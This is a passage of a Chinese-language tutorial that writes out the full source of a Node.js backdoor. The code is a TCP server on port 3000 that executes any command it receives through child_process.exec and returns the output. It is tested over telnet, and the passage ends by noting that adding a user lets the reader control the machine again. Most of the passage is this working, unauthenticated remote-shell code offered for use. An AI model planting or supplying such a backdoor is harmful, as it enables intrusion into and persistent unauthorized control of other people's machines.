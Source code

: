 为了更加的直观，我用#start和#end来标出反馈的区域。

server变量OK后，就是让程序监听端口运行了。

```
server.listen(3000,function(){
    console.log('OK');
});

```

监听3000端口，并在终端中显示OK。

完整代码如下：

```
var net = require('net');
var exec = require('child_process').exec;
var server= net.createServer(function(conn){
    conn.setEncoding('utf8');
    conn.write('\n');
    conn.on('data',function(data){
        data=data.replace('\r\n','');
        exec(data,function(error,stdout){
            if(error !== null){
                conn.write(error + '\n');
                return false;       
            }
            conn.write('########################start\n\n' + stdout + '\n########################end\n\n');
        });
    });
}); 

server.listen(3000,function(){
    console.log('OK');
});

```

现在让我们来测试一下：

![p2](http://drops.javaweb.org/uploads/images/c918cac536243e55ffe66be74f9039620dba7fe8.jpg)

打开另一个终端，输入`telnet 127.0.0.1 3000`

![p3](http://drops.javaweb.org/uploads/images/6537eb63363989e01016c416c4b3b860ab25ffb3.jpg)

现在我们输入几条命令试下：

![p4](http://drops.javaweb.org/uploads/images/b15f362f4d00b5ec3229c5711481c5e508fd3e97.jpg)

![p5](http://drops.javaweb.org/uploads/images/9b2d032ce09e4f4aaaea892f73839f7ff9f40ef3.jpg)

OK了。现在只需要使用添加用户即可再次控制机器。
